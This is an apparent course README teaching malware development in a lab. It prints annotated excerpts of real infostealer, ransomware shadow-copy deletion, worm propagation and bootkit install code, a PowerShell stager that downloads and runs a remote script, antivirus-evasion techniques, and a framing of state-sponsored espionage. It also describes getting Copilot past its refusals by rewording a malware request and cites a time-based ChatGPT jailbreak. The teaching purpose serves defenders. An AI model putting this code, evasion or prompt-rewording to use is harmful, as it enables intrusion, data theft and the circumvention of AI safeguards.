

# Malware Development Class

# Table Of Contents 

- [Malware Development Class](#malware-development-class)
- [QR Code](#qr-code)
- [Class Objectives](#class-objectives)
- [Disclaimer](#disclaimer)
- [Prerequisites](#prerequisites)
- [Understanding Malware](#understanding-malware)
- [Why Make Malware?](#why-make-malware)
- [Which Language To Use?](#which-language-to-use)
  - [Go](#go)
  - [Rust](#rust)
  - [Nim](#nim)
  - [C](#c)
  - [C#](#c-1)
  - [Python](#python)
- [Basic Understanding of Malware Types](#basic-understanding-of-malware-types)
  - [Infostealers](#infostealers)
  - [Stagers/Loaders](#stagersloaders)
  - [Ransomware](#ransomware)
  - [Trojans](#trojans)
  - [Worms](#worms)
  - [Rootkits](#rootkits)
- [Understanding Privilege Levels](#understanding-privilege-levels)
- [Understanding The Windows API](#understanding-the-windows-api)
- [Understanding Antimalware Detection](#understanding-antimalware-detection)
    - [Static/Signature Detection](#staticsignature-detection)
    - [Heuristics Detection](#heuristics-detection)
    - [Behavioral Detection](#behavioral-detection)
- [Obfuscation Techniques](#obfuscation-techniques)
  - [Encoding Strings](#encoding-strings)
  - [Obfuscating The Import Address Table](#obfuscating-the-import-address-table)
  - [Execution Guardrails/Kill Switches](#execution-guardrailskill-switches)
  - [Certificate Signing](#certificate-signing)
- [Use of Artificial Intelligence in Malware Development](#use-of-artificial-intelligence-in-malware-development)
  - [Example](#example)
  - [An Important Note About AI In Malware Development](#an-important-note-about-ai-in-malware-development)
- [Putting Everything Together](#putting-everything-together)
  - [Scenario](#scenario)
  - [Mission](#mission)
  - [Malware Goals](#malware-goals)
  - [What Language To Use?](#what-language-to-use)
  - [Where To Start?](#where-to-start)
  - [Initial Design](#initial-design)
  - [Creating Our First Function/Program](#creating-our-first-functionprogram)
  - [Lets Compare](#lets-compare)
- [Extra Material](#extra-material)
- [Closing Notes](#closing-notes)
- [Reference Links](#reference-links)

# QR Code 

This QR code will take you to the repository with the lab material. 


# Class Objectives 

* What is Malware?
* Which Language to Use?
* Basic Keyloggers, Trojans, Infostealers.
* Evolution of Antimalware Products and Features.
* Common Obfuscation Techniques.
* Use of Generative AI and Large Language Models.
* The Process of Creating Malware.


# Disclaimer

Be smart, don't violate the computer fraud and abuse act. Deploying any malicious software (even for educational purposes) to devices or resources you have not received explicit permission for will land you in trouble.


# Prerequisites 

-  **Basic Computer Science Concepts:** Familiarity with programming concepts and prior experience with at least one programming language.
  
-  **Laptop:** A laptop with internet access, capable of running development tools and virtual machines.

-  **Rust and Cargo:** This malware created in this class will be written in Rust.
  

# Understanding Malware

In the most basic form, malware is just normal software that performs undesired actions.
An example of this would be software that displays unwanted/misleading advertisements in a user's web browser, or software that constantly moves the mouse cursor around randomly, or even software that restarts a user's computer without warning.

# Why Make Malware?

For defenders to effectively detect and respond to incidents involving malicious software, it is more crucial that ever to understand the basic concepts of how malware operates and the development process, starting from conceptualization to the final product. 

Attempting to pivot to more advanced topics such as malware analysis, where responders have to reverse engineer potentially malicious software with little to no prior context can prove difficult if the fundamentals behind malware development are skipped.

# Which Language To Use?

Just as in software development, selecting the appropriate programming language is crucial for malware development. Each language offers unique features and capabilities that can significantly impact the effectiveness and efficiency of your finished product.

## Go

**Pros:**

-   **Concurrency:** Built-in support for concurrent programming with goroutines.
-   **Ease of Use:** Simple syntax and easy to learn, which speeds up development.
-   **Static Typing:** Helps catch errors at compile time, increasing reliability.
-   **Cross-Platform:** Compiles to a single binary that can run on multiple platforms.

**Cons:**

-   **Binary Size:** Go binaries can be larger compared to those of other languages.
-   **Limited Libraries:** Fewer libraries compared to more established languages like Python.
-   **Garbage Collection:** Although efficient, it can introduce latency in real-time applications.
-   **Visibility:** Go binaries can be easier to analyze and reverse-engineer as all the dependencies are packaged into one binary.

## Rust

**Pros:**

-   **Memory Safety:** Ownership system prevents common memory errors.
-   **Performance:** Comparable to C and C++, suitable for high-performance tasks.
-   **Concurrency:** Strong support for concurrent programming.
-   **Modern Features:** Includes modern language features like pattern matching and type inference.

**Cons:**

-   **Complexity:** Steeper learning curve due to its strict safety and concurrency features.
-   **Compile Times:** Longer compile times compared to some other languages.
-   **Ecosystem:** Smaller ecosystem and fewer libraries compared to more mature languages.

## Nim

**Pros:**

-   **Performance:** Compiles to C, C++, or JavaScript, offering high performance.
-   **Metaprogramming:** Powerful metaprogramming capabilities for creating flexible software.
-   **Ease of Use:** Designed to be easy to read and write, speeding up development.
-   **Cross-Platform:** Can target multiple platforms with minimal changes.

**Cons:**

-   **Community:** Smaller community and less support compared to more popular languages.
-   **Tooling:** Less mature tooling and IDE support.
-   **Adoption:** Lower adoption rate, which might limit the availability of resources and libraries.
-   **Detection:** Antimalware products heavily scrutinize Nim binaries.

## C

**Pros:**

-   **Low-Level Access:** Direct access to memory and system resources.
-   **Performance:** High performance, crucial for efficient malware.
-   **Portability:** Can be compiled on various platforms.
-   **Control:** Fine-grained control over system resources and hardware.

**Cons:**

-   **Complexity:** Steep learning curve and prone to errors like buffer overflows.

## C#

**Pros:**

-   **Integration with Windows:** Excellent for targeting Windows environments.
-   **Ease of Use:** Easier to write and maintain compared to C or C++.
-   **Rich Libraries:** Extensive .NET framework libraries.
-   **Garbage Collection:** Automatic memory management reduces the risk of memory leaks.

**Cons:**

-   **Platform Dependency:** Primarily designed for Windows, though .NET Core improves cross-platform capabilities.
-   **Performance:** Generally slower than C or C++ due to the overhead of the .NET runtime.
-   **Size:** Larger runtime and dependencies can increase the size of the malware.
  
## Python

**Pros:**
-   **Ease of Use:** Simple syntax and readability, ideal for rapid development.
-   **Extensive Libraries:** Vast ecosystem of libraries for various functionalities.
-   **Cross-Platform:** Runs on multiple operating systems with minimal changes.

**Cons:**
-   **Performance:** Slower execution speed compared to compiled languages like C or Rust.
-   **Dependency Management:** Managing dependencies can be challenging, especially for cross-platform compatibility.
-   **Visibility:** Python scripts are easier to analyze and reverse-engineer.

# Basic Understanding of Malware Types

Malware has evolved significantly over the past 20 years, transitioning from simple prank applications to sophisticated multi-stage programs that implement several layers of obfuscation to conceal functionality and true intent.

It's important for us to understand the different types of malware and the use cases they fulfill.

## Infostealers

**Description:** An Infostealer is a type of malware designed to collect sensitive information from infected systems. This can include passwords, credit card numbers, personal identification information, and other valuable data.

**Key Characteristics:**

-   **Data Collection:** Targets specific types of data, such as browser history, saved passwords, and system information.
-   **Stealth:** Often operates silently to avoid detection and maximize the amount of data collected.
-   **Exfiltration:** Sends the collected data back to the attacker, typically through an API or webhook.


**Examples:** Basic keyloggers, Redline, Lumma, and Raccoon.

This code snippet is found in the "userinfohelper.cs" file, as part of the Redline Infostealer source code.

```c#
//Redline uses C#
public static class UserInfoHelper{
    public static List<InstalledBrowserInfo> GetBrowsers()
    {
        RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("SOFTWARE\\WOW6432Node\\Clients\\StartMenuInternet"); // <- Check registry key for the default browser.
        if (registryKey == null)
        {
            registryKey = Registry.LocalMachine.OpenSubKey("SOFTWARE\\Clients\\StartMenuInternet"); // <- Check this registry key if the other one is not found.
        }
        string[] subKeyNames = registryKey.GetSubKeyNames(); // <- Get the subkeys of the registry key for StartMenuInternet.
        List<InstalledBrowserInfo> list = new List<InstalledBrowserInfo>(); // <- Create a list to store installed browser info.
        for (int i = 0; i < subKeyNames.Length; i++) // <- Loop through each subkey found.
        {
            InstalledBrowserInfo installedBrowserInfo = new InstalledBrowserInfo(); // <- Create a new instance to hold browser info.
            RegistryKey registryKey2 = registryKey.OpenSubKey(subKeyNames[i]); // <- Open the subkey for the current browser.
            installedBrowserInfo.Name = (string)registryKey2.GetValue(null); // <- Get the browser's name from the default value of the subkey.
            RegistryKey registryKey3 = registryKey2.OpenSubKey("shell\\open\\command"); // <- Open the subkey to get the command used to open the browser.
            installedBrowserInfo.Path = registryKey3.GetValue(null).ToString().StripQuotes(); // <- Get the path to the browser's executable and strip any quotes.
            if (installedBrowserInfo.Path != null)
            {
                installedBrowserInfo.Version = FileVersionInfo.GetVersionInfo(installedBrowserInfo.Path).FileVersion; // <- Get the browser's version if the path is not null.
            }
            else
            {
                installedBrowserInfo.Version = "Unknown Version"; // <- Set the version to "Unknown Version" if the path is null.
            }
            list.Add(installedBrowserInfo); // <- Add the browser info to the list.
        }
        InstalledBrowserInfo edgeVersion = GetEdgeVersion(); // <- Get information about Microsoft Edge, if installed.
        if (edgeVersion != null)
        {
            list.Add(edgeVersion); // <- Add Edge info to the list if found.
        }
        return list; // <- Return the list of installed browsers.
    }
}
```
**Snippet Summary** 

The "UserInfoHelper" class checks the SOFTWARE\WOW6432Node\Clients\StartMenuInternet registry key. If it doesn’t exist, it checks SOFTWARE\Clients\StartMenuInternet. These keys indicate where the default web browser is set. The program then creates a list to document the installed browsers and checks if Edge is also installed, adding it to the list if found.

## Stagers/Loaders

**Description:** Stagers and Loaders are types of malware that prepare the environment for the deployment of additional malicious payloads. They are often the first stage in a multi-stage attack.

**Key Characteristics:**

-   **Initial Access:** Gains initial access to the target system, often through phishing or exploiting vulnerabilities.
-   **Payload Delivery:** Downloads and executes additional malware, such as ransomware or infostealers.
-   **Persistence:** Ensures that the malware remains on the system even after reboots or attempts to remove it.

  
**Examples:** Emotet, TrickBot.

This is a PowerShell one line stager.
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.2.4:443/mypowershell.ps1')"
```

This command will fetch the content of "mypowershell.ps1" from the remote host and execute it in memory, without it ever being dropped to disk.

## Ransomware

**Description:** Ransomware is a type of malware that performs mass encryption on user files and data, with the goal of demanding a payment in return for a decryption key to decrypt the affected data.

**Key Characteristics:**
-   **Encryption:** Uses strong encryption algorithms to encrypt files, making them unusable to the victim.
-   **Ransom Demand:** Displays a ransom note with instructions on how to pay the ransom, often in cryptocurrency.

**Examples:** WannaCry, Ryuk, LockBit v3.

This code snippet is found in the "Encryptor.cpp" file, as part of the HelloKitty Ransomware source code.

```c++
//HelloKitty uses C++
void removeShadows()
{
    IWbemContext *lpContext;
    HRESULT hr = CoCreateInstance(CLSID_WbemContext, nullptr, CLSCTX_INPROC_SERVER, IID_IWbemContext, (LPVOID*)&lpContext); // <- Create a WMI context instance.

    if (SUCCEEDED(hr))
    {
#ifdef _X86_
        if (IsWow64()) // <- Check if the system is run 64 bit. 
        {
            VARIANT vArch;
            VariantInit(&vArch);

            vArch.vt = VT_I4;
            vArch.lVal = 64;

            lpContext->SetValue(L"__ProviderArchitecture", 0, &vArch); // <- Set the provider architecture to 64-bit if running on a 64-bit system.
            VariantClear(&vArch);
        }
#endif
        IWbemLocator *lpLocator; // < Create a WMI locator object>
        if ((SUCCEEDED(CoCreateInstance(CLSID_WbemLocator, nullptr, CLSCTX_INPROC_SERVER | CLSCTX_NO_FAILURE_LOG | CLSCTX_NO_CODE_DOWNLOAD, IID_IWbemLocator, (LPVOID*)&lpLocator))) && (lpLocator))
        {
            IWbemServices *lpService; // Connect to the WMI ROOT\cimv2 namespace
            BSTR bstrRootPath = SysAllocString(L"ROOT\\cimv2");
            if ((SUCCEEDED(lpLocator->ConnectServer(bstrRootPath, nullptr, nullptr, nullptr, NULL, nullptr, lpContext, &lpService))) && (lpService))
            {
                if (SUCCEEDED(CoSetProxyBlanket(lpService, RPC_C_AUTHN_WINNT, RPC_C_AUTHZ_NONE, nullptr, RPC_C_AUTHN_LEVEL_CALL, RPC_C_IMP_LEVEL_IMPERSONATE, nullptr, EOAC_NONE))) // check Security Level and set it to allow for impersonation. 
                {
                    IEnumWbemClassObject *lpEnumerator = nullptr;
                    BSTR bstrWql = SysAllocString(L"WQL");
                    BSTR bstrQuery = SysAllocString(L"select * from Win32_ShadowCopy"); // Execute the WMI query for win32_ShadowCopy
                    if (SUCCEEDED(lpService->ExecQuery(bstrWql, bstrQuery , WBEM_FLAG_FORWARD_ONLY | WBEM_FLAG_RETURN_IMMEDIATELY, nullptr, &lpEnumerator))) // <- execute the query and check all results.
                    {
                        while (true) // <- Loop though query results  
                        {
                            VARIANT vtProp;
                            IWbemClassObject *pclsObj;
                            ULONG uReturn = 0;
                            lpEnumerator->Next(WBEM_INFINITE, 1, &pclsObj, &uReturn);
                            if (!uReturn)
                                break;

                            if ((SUCCEEDED(pclsObj->Get(L"id", 0, &vtProp, nullptr, nullptr))) && (vtProp.vt == VT_BSTR)) // <- check for the shadow copy instance
                            {
                                wchar_t lpStr[128];
                                wsprintfW(lpStr, L"Win32_ShadowCopy.ID='%s'", vtProp.bstrVal); // <- Format the shadow copy ID.
                                if (BSTR str = SysAllocString(lpStr)) {
                                    lpService->DeleteInstance(str, 0, lpContext, nullptr); // <- Delete the shadow copy instance.
                                    SysFreeString(str);
                                }
                                VariantClear(&vtProp);
                            }
                            pclsObj->Release(); // <- CLeaning up and release resources
                            VariantClear(&vtProp);
                        }
                    }
                    SysFreeString(bstrWql);
                    SysFreeString(bstrQuery);// <- CLeaning up and release resources
                }
                SysFreeString(bstrRootPath);// <- CLeaning up and release resources
                lpService->Release();
            }
            lpLocator->Release();// <- CLeaning up and release resources
        }
        lpContext->Release();// <- CLeaning up and release resources
    }
}
```

## Trojans

**Description:** A Trojan, or a Trojan horse, is a type of malware that disguises itself as legitimate software to trick users into installing it. Once installed, it can perform a variety of malicious actions.

**Key Characteristics:**
-   **Deception:** Appears to be a legitimate application or file to deceive users.
-   **Payload:** Can deliver various types of payloads, including infostealers, keyloggers, and ransomware.
-   **Control:** Often provides remote access to the attacker, allowing them to control the infected system.

**Examples:** Zeus, Remote Access Trojans (RATs) like DarkComet.

## Worms

**Description:** A Worm is a type of malware that can replicate itself and spread to other systems without user intervention. They often exploit network vulnerabilities to propagate.

**Key Characteristics:**
-   **Self-Replication:** Can create copies of itself and spread to other systems.
-   **Network Propagation:** Exploits network vulnerabilities to move from one system to another.

**Examples:** Blaster, Conficker, Stuxnet.

This code snippet is found in the "SingLung.c", as part of the SingLung Worm source code.

```c++
//SingLung uses C++
void GetMail(char *namefile, char *mail)
{
    HANDLE hf, hf2;
    char *mapped;
    DWORD size, i, k;
    BOOL test = FALSE, valid = FALSE;
    mail[0] = 0;

    hf = CreateFile(namefile, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_ARCHIVE, 0); // <- Open the file for reading.
    if (hf == INVALID_HANDLE_VALUE)
        return;
    size = GetFileSize(hf, NULL); // <- Get the size of the file.
    if (!size)
        return;
    if (size < 8)
        return;
    size -= 100; // <- Adjust size to avoid reading the entire file.

    hf2 = CreateFileMapping(hf, 0, PAGE_READONLY, 0, 0, 0); // <- Create a file mapping object.
    if (!hf2) {
        CloseHandle(hf);
        return;
    }

    mapped = (char *)MapViewOfFile(hf2, FILE_MAP_READ, 0, 0, 0); // <- Map the file into the address space of the calling process.
    if (!mapped) {
        CloseHandle(hf2);
        CloseHandle(hf);
        return;
    }

    i = 0;
    while (i < size && !test) {
        if (!strncmpi("mailto:", mapped + i, strlen("mailto:"))) { // <- Look for "mailto:" in the mapped file.
            test = TRUE;
            i += strlen("mailto:");
            k = 0;
            while (mapped[i] != 34 && mapped[i] != 39 && i < size && k < 127) { // <- Read the email address.
                if (mapped[i] != ' ') {
                    mail[k] = mapped[i];
                    k++;
                    if (mapped[i] == '@')
                        valid = TRUE;
                }
                i++;
            }
            mail[k] = 0;
        } else
            i++;
    }

    if (!valid)
        mail[0] = 0; // <- If no valid email found, set mail to empty.
    UnmapViewOfFile(mapped); // <- Unmap the file from the address space.
    CloseHandle(hf2); // <- Close the file mapping object handle.
    CloseHandle(hf); // <- Close the file handle.
    return;
}

void sendmail(char *tos)
{
    memset(&mess, 0, sizeof(MapiMessage));
    memset(&from, 0, sizeof(MapiRecipDesc));

    from.lpszName = NULL;
    from.ulRecipClass = MAPI_ORIG;
    mess.lpszSubject = "Secret for you...";
    mess.lpszNoteText = "Hi Friend,\n\n"
                        "I send you my last work.\n"
                        "Mail me if you have some suggests.\n\n"
                        "    See you soon. Best Regards.";

    mess.lpRecips = (MapiRecipDesc *)malloc(sizeof(MapiRecipDesc)); // <- Allocate memory for recipient info.
    if (!mess.lpRecips)
        return;
    memset(mess.lpRecips, 0, sizeof(MapiRecipDesc));
    mess.lpRecips->lpszName = tos;
    mess.lpRecips->lpszAddress = tos;
    mess.lpRecips->ulRecipClass = MAPI_TO;
    mess.nRecipCount = 1;

    mess.lpFiles = (MapiFileDesc *)malloc(sizeof(MapiFileDesc)); // <- Allocate memory for file attachment info.
    if (!mess.lpFiles)
        return;
    memset(mess.lpFiles, 0, sizeof(MapiFileDesc));
    mess.lpFiles->lpszPathName = filename;
    mess.lpFiles->lpszFileName = "My_Work.exe";
    mess.nFileCount = 1;

    mess.lpOriginator = &from;

    mSendMail(0, 0, &mess, 0, 0); // <- Send the email.

    free(mess.lpRecips); // <- Free the allocated memory for recipient info.
    free(mess.lpFiles); // <- Free the allocated memory for file attachment info.
}

```

## Rootkits

**Description:** A rootkit is a type of malicious software designed to gain unauthorized access to a computer system and maintain that access while hiding their presence. Rootkits can modify the operating system boot order or and software to conceal their activities, making them difficult to detect and remove.

**Key Characteristics:**

-   **Stealth:** Rootkits are designed to hide their presence from users and security software, often by modifying system files and processes.
-   **Persistence:** They can maintain access to the system even after reboots and updates.
-   **Control:** Rootkits provide attackers with remote control over the infected system, allowing them to execute commands, steal data, and install additional malware.

**Examples:** Stuxnet, TDL-4.

This code snippet is found in the "install.c", as part of the BlackLotus Bootkit source code.

```c
//Blacklotus uses C
BOOL InstallBot()
{
    LPWSTR Path = NULL,
           Directory = NULL,
           Key = NULL,
           Config = NULL;

    if ((Directory = GetBotDirectory()) == NULL) // <- Get the directory where the bot should be installed.
        return FALSE;

    Path = GetBotPath(); // <- Get the path where the bot executable should be copied.
    if (Path != NULL)
    {
        DosPathToNtPath(&Path); // <- Convert DOS path to NT path.
        DosPathToNtPath(&Directory); // <- Convert DOS path to NT path.

        if (FileCreateDirectory(Directory)) // <- Create the directory if it doesn't exist.
        {
            DosPathToNtPath(&g_CurrentProcessPath); // <- Convert the current process path to NT path.
            FileCopy(g_CurrentProcessPath, Path, TRUE); // <- Copy the current process executable to the new path.
            DebugPrintW(L"NzT: Install location: %ls", Path); // <- Print the install location for debugging.
            g_BotInstallPath = Path; // <- Set the global bot install path.
            return TRUE;
        }
    }

    DebugPrintW(L"NzT: Failed to install at :%ls", Path); // <- Print the failure message for debugging.

    return FALSE;
}

```

# Understanding Privilege Levels

Most modern malware operates within the least privileged level, ring 3, also refered to as "user land", this is also where legitmate software that a user may interact with will operate.

Malware running in the operating system kernel, ring 0, also refered to as "kernel land" is no longer as popular as it historically was due to the implentation of safeguards such as kernel patch protection (patchguard) and more restrictive driver load restrictions. These restrictions have also been reflected in various antimalware products.



**Ring 0 (Kernel Mode):**

**Description:** This is one of the most privileged levels, where the operating system kernel runs. It has direct access to all hardware and memory.

Device drivers and core operating system functions operate in the kernel. If software problems arise in the kernel, it often leads to crashing or a "bug check".

**Ring 1 and Ring 2 (Driver Mode):**

**Description:** These rings are less privileged than ring 0 and are typically used for device drivers and other lower-level system functions.

Some operating systems use these rings for specific drivers or services. Modern operating systems often do not use these rings, relying instead on ring 0 and 3.

**Ring 3 (User Mode):**

**Description:** This is the least privileged level, where user applications run. It has restricted access to hardware and must request access through system calls to ring 0.

Web browsers, word processors, and other user applications operate in ring 3. Errors in ring 3 are less critical because they do not have direct access to the hardware, reducing the chance of fatal system crashing.

# Understanding The Windows API

In order to interact with the lower privilege rings (ring 0) from user mode (ring 3), the Windows API allows the use of system calls (syscalls) to pass a request from user mode to the kernel. For lower-level languages such as C, system calls can be performed without any additional libraries or packages. Languages like Go and Rust are the opposite, system call usage is deemed unsafe, and the section of code utilizing system calls must be declared as "unsafe", and the Windows API packages must be imported. 

# Understanding Antimalware Detection

In order to write malware that appears benign or has the capability to evade antimalware solutions, understanding the different detection mechanisms that modern consumer and enterprise antimalware solutions utilize is critical.

### Static/Signature Detection

**Description:** Static or signature-based detection involves scanning files for known patterns or signatures that match a database of known malware. This method is effective against known threats but can be bypassed by modifying the malware’s code or using bin2bin obfuscation.

**Yara:** A tool used to identify and classify malware by creating rules that describe patterns of malicious files. Yara rules can be used to detect specific strings, sequences, or binary patterns within files and memory.

**Example:** 
```yar
/*
    This Yara ruleset is under the GNU-GPLv2 license (http://www.gnu.org/licenses/gpl-2.0.html) and open to any user or organization, as    long as you use it under this license.
*/
/*
	Yara Rule Set
	Author: Florian Roth
	Date: 2016-03-24
	Identifier: Petya Ransomware
*/
/* Rule Set ----------------------------------------------------------------- */
rule Petya_Ransomware {
	meta:
		description = "Detects Petya Ransomware"
		author = "Florian Roth"
		reference = "http://www.heise.de/newsticker/meldung/Erpressungs-Trojaner-Petya-riegelt-den-gesamten-Rechner-ab-3150917.html"
		date = "2016-03-24"
		hash = "26b4699a7b9eeb16e76305d843d4ab05e94d43f3201436927e13b3ebafa90739"
	strings:
		$a1 = "<description>WinRAR SFX module</description>" fullword ascii

		$s1 = "BX-Proxy-Manual-Auth" fullword wide
		$s2 = "<!--The ID below indicates application support for Windows 10 -->" fullword ascii
		$s3 = "X-HTTP-Attempts" fullword wide
		$s4 = "@CommandLineMode" fullword wide
		$s5 = "X-Retry-After" fullword wide
	condition:
		uint16(0) == 0x5a4d and filesize < 500KB and $a1 and 3 of ($s*)
}

rule Ransom_Petya {
meta:
    description = "Regla para detectar Ransom.Petya con md5 AF2379CC4D607A45AC44D62135FB7015"
    author = "CCN-CERT"
    version = "1.0"
strings:
    $a1 = { C1 C8 14 2B F0 03 F0 2B F0 03 F0 C1 C0 14 03 C2 }
    $a2 = { 46 F7 D8 81 EA 5A 93 F0 12 F7 DF C1 CB 10 81 F6 }
    $a3 = { 0C 88 B9 07 87 C6 C1 C3 01 03 C5 48 81 C3 A3 01 00 00 }
condition:
    all of them
}
```

The points of focus are the **"strings"** and **"conditions"** sections. Yara rules can have mutable rules inside a single rule. In this example, there are two rules for the Petya Ransomware family. 

```yar
$s1 = "BX-Proxy-Manual-Auth" fullword wide
$s2 = "<!--The ID below indicates application support for Windows 10 -->" fullword ascii
$s3 = "X-HTTP-Attempts" fullword wide
$s4 = "@CommandLineMode" fullword wide
$s5 = "X-Retry-After" fullword wide
```

```yar
$a1 = { C1 C8 14 2B F0 03 F0 2B F0 03 F0 C1 C0 14 03 C2 }
$a2 = { 46 F7 D8 81 EA 5A 93 F0 12 F7 DF C1 CB 10 81 F6 }
$a3 = { 0C 88 B9 07 87 C6 C1 C3 01 03 C5 48 81 C3 A3 01 00 00 }
```
[Yara Rule](https://github.com/Yara-Rules/rules/blob/master/malware/RANSOM_Petya.yar)

### Heuristics Detection

**Description:** Heuristic detection analyzes the structure and behavior of files to identify suspicious characteristics. This method can detect new or modified existing malware, as neither would match known signatures.

**Key Features:**
-   **Code Analysis:** Examines the code for unusual instructions or sequences.
-   **File Structure:** Analyzes the file structure for anomalies that are common in malware.

### Behavioral Detection

**Description:** Behavioral detection monitors the behavior of programs in real-time to identify malicious activities. This method is effective against both known and unknown threats, as it focuses on what the program does rather than its code.

**Key Features:**
-   **System Calls:** Monitors system calls and interactions with the operating system.
-   **Network Activity:** Observes network connections and data transfers.
-   **File Modifications:** Tracks changes to files and directories.

# Obfuscation Techniques

To avoid being immediately flagged by antimalware solutions, malware is commonly obfuscated, using various methods such as virtualization, mutation, or packing. However obfuscation is not limited to just these three.

[Malware Behavior Catalog](https://github.com/MBCProject/mbc-markdown/blob/main/)

## Encoding Strings

Malware with easily identifiable plain-text strings embedded in the binary is often seen as low-hanging fruit for detection engineers, as they can build detection rules or signatures off the strings alone.

A simple way to avoid this pitfall is to either encode strings or encrypt them at compile time.

## Obfuscating The Import Address Table 

The import address table outlines the dependencies your program requires to operate, as well as the functions utilized from each of the dependencies. Disabling compiler optimization and creating large amounts of dead-code can artificially increase the entries in the import table, or the segment where the import table resides can be obscured or destroyed by software protection solutions. Both of these approaches will increase the analysis time required to fully reverse-engineer the malware.

## Execution Guardrails/Kill Switches

Execution guardrails constrain the execution of malware based on certain conditions or characteristics of the target environment. These conditions can include specific network configurations, hardware characteristics, or software environments. The goal is to ensure that the malware only activates when it detects the expected conditions, thereby avoiding exposure in unintended environments, such as malware analysis sandboxes or virtual machines. 

Some common malware guardrails are:

* Detecting if a debugger is attached.
* Querying registration info for a domain.
* Reading the device hostname.
* Checking for drivers or devices that would only be present on a virtual machine.
* Checking for the presence of installed language packs.
* Querying device location through IP geolocation lookup or device GPS.

This code snippet is part of the BlackLotus Bootkit source code.

 ```c
 //BlackLotus uses C
 #ifndef __ANTIDEBUG_H__
#define __ANTIDEBUG_H__

#include "nzt.h"

BOOL IsBeingDebuggedAlt(); // <- Check if the IsBeingDebugged flag is set in the Process Environment Block (PEB)
WINERROR IsBeingDebugged(); // <- errors if the the IsBeingDebugged flag is true

#endif //__ANTIDEBUG_H__
```

## Certificate Signing

It should be mentioned that obtaining a legitimate code signing certificate can aid in antimalware evasion, as some antimalware solutions read the certificate chain and incorporate that data when calculating the reputation of an unknown file, but relying exclusively on this without modifications to the malware binary itself will lead to the certificate being blacklisted or revoked.


# Use of Artificial Intelligence in Malware Development

Generative AI is inescapable now, even in this class. However, I will keep it short. AI offers significant advantages in malware development. It assist in mutating code, generating new code based on previously detected code, or even adding dead code.

Unfortunately, most LLM models have safeguards in place to prevent usage for tasks such as malware development. 

## Example

When asking Copilot for code snippets that reference "malware" or any other software with the intent to harm, it refuses to help.


If we reword our prompt to sound more inline with a normal software development request, Copilot is happy to help us.


> Note: At the time this section of the lab was created, BleepingComputer posted an article about manipulating LLM models into believing they were back in time, and needed to fulfill the request using techinques from the given time period. A link to the article is [here.](https://www.bleepingcomputer.com/news/security/time-bandit-chatgpt-jailbreak-bypasses-safeguards-on-sensitive-topics/)

## An Important Note About AI In Malware Development

Be ready to review any code generated by AI, as often it will use old or fictional dependencies leading to inconsistencies or broken functionality.

Example created by AI:

```rust
fn check_domain(domain: &str) {
    match (domain, 80).to_socket_addrs() { // <- This tries to use the socket crate to connect to port 80.
        Ok(_) => println!("Domain resolved successfully."),
        Err(_) => {
            eprintln!("Failed to resolve domain.");
            process::exit(1);
        }
    }
}
```

Example created by a human: 

```rust
fn resolve_domain_name(domain: &str) -> Result<Vec<IpAddr>, String> { // <- This uses the DNS lookup crate. This just does a nslookup
    match lookup_host(domain) {
        Ok(ips) => Ok(ips),
        Err(e) => Err(format!("Failed to resolve domain {}: {}", domain, e)),
    }
}
```
# Putting Everything Together

## Scenario 

You are part of a state-sponsored cyber espionage team which called "Summer Ducks" tasked with gaining access to sensitive data from a foreign government agency.

## Mission

Your team has identified an easy target: a defense company of a neighboring country. The goal is to obtain intelligence on their latest defense strategies and technological advancements.

Leveraging infostealer logs from a previous engagement, we are able to access the RMM (Remote Monitoring and Management) software used internally. We will leverage this RMM to deploy our malware under the guise of a routine software deployment.

## Malware Goals

* Needs to have persistent access.
* Needs to have encrypted communication. 
* Needs a kill switch for when the operation is complete.
* Needs to have the primary payload hidden.
* Can't have external dependencies.
* Needs to blend in the environment.

## What Language To Use? 

We will use Rust because it is very similar to C and doesn't require manual memory management. However, in the context of this exercise we could also use Nim or Go. 

## Where To Start?

The first hurdle we must address is determining how we will blend in with normal activity within the organization. As we have access to the internal RMM software, it would not appear unusual if new software was deployed from the RMM agent.

This allows us to bypass the requirement of a loader/stager to deliver the our malware to the targets.

## Initial Design

Due to time constraints, there may not be time to implement every feature, so to start we will create a high-level outline of what functions you believe will be required to accomplish our task at hand. 

After a short time, we will show you the design created for this class.

**My Initial Design**

- Encryption and decryption functions that hide any hardcoded strings to deter static analysis.
- A check-in function to get the next command from a remote location.
- An uninstall function for when we need to delete the program and cleanup.
- An install function to hide the malware.
- A persist function to check and create a mutex registry key to start on boot.
- Guardrails to stop execution if a debugger is detected or no internet connection is present.

## Creating Our First Function/Program 

This where you create your malware project. 

>Feel free to use generative AI. 

1. Open the win10victim VM.
2. Open VS Code.
3. Go to the file button on the top left of VS Code.
4. Click on the open folder.
5. Navigate to the `C:\user\admin\Desktop\"Rust malware"\malware` and select the malware folder.
6. There should be a sample "Hello World" program there for you to play with. 
7. Try creating something. 
   
> To start, all you have to do is open a terminal and enter in  `cargo run`.

## Lets Compare

